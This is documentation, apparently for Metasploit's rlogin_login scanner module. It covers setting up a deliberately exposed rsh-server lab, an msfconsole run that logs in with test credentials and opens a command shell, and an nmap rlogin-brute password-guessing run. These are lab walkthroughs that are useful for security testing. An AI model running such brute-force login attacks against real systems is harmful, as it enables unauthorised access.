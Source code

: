 ## Vulnerable Application

The R Services (rexecd, rlogind, and rshd) are a suite of unencrypted remote command/login services developed in the 1980s.
These services are all but unused in modern computing, as they have been replace by telnet and ssh.

The following was done on Kali linux:

  1. `apt-get install rsh-server` which includes: `rexecd`, `rlogind` and `rshd`.
  2. Start the service: `service openbsd-inetd start`

## Verification Steps

  1. Install and configure rexec
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/rservices/rlogin_login`
  4. Do: `set rhosts`
  5. Set any other credentials that will need to be set
  6. Do: `run`

## Scenarios

  A run against the configuration from these docs

  ```
    msf > use auxiliary/scanner/rservices/rlogin_login
    msf auxiliary(rlogin_login) > set rhosts 10.1.2.3
    rhosts => 10.1.2.3
    msf auxiliary(rlogin_login) > set password test
    password => test
    msf auxiliary(rlogin_login) > set username test
    username => test
    msf auxiliary(rlogin_login) > run

    [*] 10.1.2.3:513     - 10.1.2.3:513 - Starting rlogin sweep
    [*] 10.1.2.3:513     - 10.1.2.3:513 - Attempting: 'test':"test" from 'root'
    [*] 10.1.2.3:513     - 10.1.2.3:513 - Prompt: Password:
    [*] 10.1.2.3:513     - 10.1.2.3:513 - Result:     The programs included with the Kali GNU/Linux system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright.  Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.
    [+] 10.1.2.3:513     - 10.1.2.3:513, rlogin 'test' successful with password "test"
    [!] 10.1.2.3:513     - *** auxiliary/scanner/rservices/rlogin_login is still calling the deprecated report_auth_info method! This needs to be updated!
    [!] 10.1.2.3:513     - *** For detailed information about LoginScanners and the Credentials objects see:
    [!] 10.1.2.3:513     -      https://docs.metasploit.com/docs/development/developing-modules/guides/scanners/creating-metasploit-framework-loginscanners.html
    [!] 10.1.2.3:513     -      https://docs.metasploit.com/docs/development/developing-modules/guides/scanners/how-to-write-a-http-loginscanner-module.html
    [!] 10.1.2.3:513     - *** For examples of modules converted to just report credentials without report_auth_info, see:
    [!] 10.1.2.3:513     -      https://github.com/rapid7/metasploit-framework/pull/5376
    [!] 10.1.2.3:513     -      https://github.com/rapid7/metasploit-framework/pull/5377
    [*] Command shell session 1 opened (10.1.2.3:1023 -> 10.1.2.3:513) at 2017-05-11 20:04:24 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

## Confirming using NMAP

Utilizing [rlogin-brute](https://nmap.org/nsedoc/scripts/rlogin-brute.html)

  ```
    nmap -p 513 --script rlogin-brute 10.1.2.3

    Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-11 20:07 EDT
    Nmap scan report for test (10.1.2.3)
    Host is up (0.000039s latency).
    PORT    STATE SERVICE
    513/tcp open  login
    | rlogin-brute:
    |   Accounts: No valid accounts found
    |_  Statistics: Performed 6662201 guesses in 609 seconds, average tps: 10491.0

    Nmap done: 1 IP address (1 host up) scanned in 608.75 seconds
  ```